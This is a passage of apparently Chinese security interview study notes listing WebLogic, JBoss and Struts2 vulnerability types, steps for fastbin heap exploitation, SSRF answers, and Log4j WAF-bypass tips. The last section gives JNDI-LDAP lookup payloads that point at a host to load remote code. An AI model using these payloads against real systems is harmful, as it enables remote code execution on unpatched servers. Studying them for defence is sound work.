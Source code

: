 

### 8.Weblogic 常见的漏洞有哪些？

- **XMLDecoder反序列化漏洞**
- **T3协议反序列化漏洞**
- **未授权访问漏洞**
- **命令执行漏洞**
- **IIOP协议反序列化漏洞**
- **SSRF漏洞**



### 9.Jboss 常见的漏洞有哪些？

- **访问控制不严导致的漏洞**
- **反序列化导致的漏洞**



### 10.Struts2 常见的漏洞有哪些？

- 反序列化漏洞



### 11.Fastbin 怎么利用？

使用流程如下：

1. 申请同样大小的两个内存块，并将它们都释放，这样这两个内存块就会被放入 Fastbin 链表中。
2. 重新申请同样大小的内存块，此时 glibc 会从 Fastbin 链表中返回其中一个内存块的地址，作为本次申请的内存块。
3. 利用本次申请返回的内存块地址，修改其中保存的值为 Fastbin 链表中未释放的内存块的地址。
4. 再次申请同样大小的内存块，此时 glibc 会从 Fastbin 链表中返回之前修改过的内存块地址，作为本次申请的内存块。



### 12.Ssrf 攻击的目标为？

**<u>外网无法访问的内部系统</u>**



### 13.ssrf 是否可以通过过滤get或post参数进行防御？

不行



### 14.Log4j 怎么绕过？

- **不出现port，避免被waf匹配ip:port**

  ```
  ${jndi:ldap:192.168.1.1/a}
   ${jndi:ldap:192.168.1.1:/a} 
  注意此时需要ldap服务端口为389
  
  ```
